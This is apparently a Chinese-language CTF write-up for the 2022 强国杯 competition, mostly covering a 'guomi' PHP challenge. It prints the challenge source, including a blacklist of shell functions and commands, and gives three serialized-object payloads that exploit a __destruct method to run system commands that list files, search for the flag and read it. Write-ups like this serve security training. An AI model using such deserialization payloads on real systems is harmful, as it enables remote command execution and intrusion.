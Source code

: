 # 2022 强国杯 WP



## Execute command

套皮 CVE，直接验证可以目录遍历，可以命令执行的情况下，弹 shell；



直接拿到 shell 就可以了？？？作为签到题我不说什么。但是起码的，加个提权会更有意思吧呵呵，都不知道单纯学一个套皮 CVE 意义何在。



## guomi

**评价这个题目，guomi 和题目一点关系都没有，脑洞垃圾题**



提交123可以得到hint

![image](C:/Users/VanHurts/Documents/WeChat Files/wxid_3yfq8f7cxld822/FileStorage/File/2022-10/assets/image-20221009165112-0go0vto.png)​

根据国密算法 输入123123可以进入

进入后在post处可以发现传参 发现函数执行 

可以使用`highlight_file`获取源码

```java
<!DOCTYPE html>
<html lang="zh-CN">
<title>真的是空白</title>
<head>
    <meta charset="utf-8">
    <style type="text/css">
        body {
            background: url("aa.png") no-repeat;
            background-size: 100%;
        }
        p {
            color: white;
        }
    </style>
</head>

<body>
<script language=javascript>
    setTimeout("document.form1.submit()",5000)
</script>
<p>
    <?php
    $disable_fun = array("file_get_contents","exec","shell_exec","system","ls","passthru","proc_open","cat /tmp/flagqlklg","tac /tmp/flagqlklg","more /tmp/flagqlklg","less /tmp/flagqlklg","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

    if ($func != null) {
        $func = strtolower($func);
    if (!in_array($func,$disable_fun)) {
        if (!in_array($p,$disable_fun)){
        echo gettime($func,$p);
        }else{
        die("you are Hacker....");
        }
            #echo gettime($func, $p);
        }else {
            die("you are Hacker...");
        }
    }
    ?>
</p>
<form  id=form1 name=form1 action="guomi.php" method=post>
    <input type=hidden id=func name=func value='date'>
    <input type=hidden id=p name=p value='Y-m-d h:i:s a'>
</body>
</html>
```

其中存在反序列化 尝试构造

```java
func=unserialize&p=O:4:"Test":2:{s:4:"func";s:6:"system";s:1:"p";s:2:"ls";}
```



找flag

```java
func=unserialize&p=O:4:"Test":2:{s:4:"func";s:6:"system";s:1:"p";s:18:"find / -name flag*";}
```



读取flag

```java
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:18:"cat /tmp/flagqlklg";s:4:"func";s:6:"system";}
```



## 葫芦娃

评价：脑洞垃圾题





## ikun

评价：脑洞垃圾题

